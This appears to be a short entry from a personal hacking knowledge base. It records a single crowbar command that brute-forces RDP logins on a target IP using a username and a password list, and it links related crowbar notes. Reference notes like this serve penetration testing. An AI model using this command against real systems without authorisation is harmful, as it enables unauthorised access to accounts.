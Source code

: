 # crowbar brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

# Related

- [20221003150780](/zet/20221003150780/README.md) crowbar
- [20221003150778](/zet/20221003150778/README.md) crowbar brute force RDP active directory domain joined
- ~/kb/hacking/commands/crowbar.md

Tags:

    #command #hacking #crowbar 
